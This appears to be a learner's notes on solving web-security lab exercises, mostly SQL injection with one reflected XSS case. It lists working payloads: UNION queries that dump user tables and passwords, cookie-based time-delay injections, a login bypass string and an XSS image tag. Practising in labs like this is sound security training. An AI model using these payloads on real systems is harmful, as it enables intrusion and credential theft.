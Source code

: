 #### SQL injection attack, listing the database contents on non-Oracle databases
- `/filter?category='+union+select+version(),null--`
- `/filter?category='+union+select+table\_name,null+from+information\_schema.tables--` 
- `/filter?category='+union+SELECT+null,column\_name+FROM+information\_schema.columns+WHERE+table\_name='users\_tgviyo'--`
- `/filter?category='+union+SELECT+username\_bzrpfl,password\_mignev+from+users\_tgviyo--`

#### SQL injection attack, listing the database contents on Oracle
- `/filter?category='+union+select+null,table\_name+from+all\_tables--`
- `/filter?category='+union+select+null,column\_name+from+all\_tab\_columns+where+table\_name='USERS\_QCHNKE'`
- `/filter?category='+union+select+USERNAME\_NREBWP,PASSWORD\_TKLBZQ+from+USERS\_QCHNKE--`

#### Blind SQL injection with conditional responses
Wrote a [script](sqli/sqli-blind-boolean-response.py) to compare substring and check reponse text.

#### Blind SQL injection with conditional errors ⭐
Similar script as conditional responses over [here](sqli/sqli-blind-boolean-error.py).

#### Blind SQL injection with time delays ⭐
Doesn't work:
- `Cookie: TrackingId=' or pg_sleep(10)--;`
- `Cookie: TrackingId=' union select pg_sleep(10)--;`

Intended solution:
`Cookie: TrackingId=' || pg_sleep(10)--;`

#### Blind SQL injection with time delays and information retrieval
Take a look at [this](sqli/sqli-bind-time.py) script.

#### Blind SQL injection with out-of-band interaction
Requires Burp Suite Professional.

#### Blind SQL injection with out-of-band data exfiltration
Requires Burp Suite Professional.

#### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
`/filter?category=' or 1=1--`

#### SQL injection vulnerability allowing login bypass
Entered this in the username field `administrator'--`

## XSS
#### Reflected XSS into HTML context with nothing encoded
Search bar `<img src=x onerror=alert(1)>`

